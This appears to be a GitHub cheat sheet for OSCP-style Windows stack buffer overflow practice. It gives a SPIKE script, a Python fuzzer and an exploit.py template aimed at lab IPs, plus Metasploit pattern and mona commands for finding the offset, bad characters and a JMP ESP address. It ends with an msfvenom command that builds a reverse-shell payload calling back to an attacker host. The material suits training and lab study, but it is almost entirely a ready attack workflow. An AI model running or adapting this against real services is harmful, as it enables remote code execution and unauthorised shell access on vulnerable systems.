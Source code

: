 # Spiking
```python
s_readline();
s_string("STATS "); # which line we are going to spike
s_string_variable("0") 


generic_send_tcp 192.168.1.70 9999 stats.spk 0 0 # spike IP 192.168.1.70 at port 9999 using stats.spk

```

# Fuzzing

```
!mona config -set workingfolder c:\mona\%p
```

### Fuzzer.py
```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.44.100" # target IP

port = 1337 # target port 
timeout = 5
prefix = "OVERFLOW1 " # option command 

string = prefix + "A" * 100 # payload

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```


# offset-finding EIP

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bytes+400>
```


### exploit.py

```python
import socket

ip = "10.10.44.100"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset 
retn = "" # Return address that we want to jmp to
padding = "" # padd before payload if we are encoding payload
payload = "" 
postfix = "" # if there is extra options 

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

## finding offset

### msf

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <bytes+400 >-q EIP
```

### mona

```
!mona findmsp -distance <bytes>
```

# Finding bad chars

```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

## Inside mona

Follow dump at ESP and manually find badchars

## Using mona

```
!mona bytearray -b "\x00"
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>

```

# Finding jump point

## mona

```
!mona jmp -r esp -cpb "BAD_CHARS_HERE"
```

# Generate payload

## msfvenom

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "BAD_CHARS" -f c
```

# Prepend NOPs

```python
padding = "\x90" * 16
```


# mona.py

[mona.py_module](https://github.com/corelan/mona )

add module to mona's config file 

```
immunity inc\immunity Debugger\PyCommands
```

```
!mona modules
```
look for .dll with all false 

```
locate nasm_shell.py

JMP ESP

!mona find -s "\Xff\Xe4" -m <.dll>

# find jump address
```